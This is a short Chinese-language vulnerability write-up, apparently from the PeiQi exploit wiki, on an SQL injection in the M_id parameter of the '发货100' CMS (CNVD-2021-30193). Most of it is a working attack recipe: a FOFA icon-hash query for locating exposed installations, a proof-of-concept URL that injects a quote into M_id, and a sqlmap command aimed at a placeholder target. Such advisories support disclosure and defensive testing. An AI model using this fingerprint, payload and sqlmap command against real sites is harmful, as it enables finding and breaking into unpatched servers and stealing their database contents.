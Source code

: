 ```yaml
---
title: 发货100 M_id SQL注入漏洞 CNVD-2021-30193
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - 发货100
---
```


# 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 发货100

## FOFA

> [!NOTE]
>
> icon_hash="1420424513"

## 漏洞复现

主页面如下

![image-20210602204745265](/img/20210924020231307728.png)

使用POC

```
/?M_id=1%27&type=product
```

![image-20210602204842198](/img/20210924020231996697.png)

 数据库出现报错, 使用Sqlmap注入

```
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```

![image-20210602233608318](/img/20210924020232188218.png)

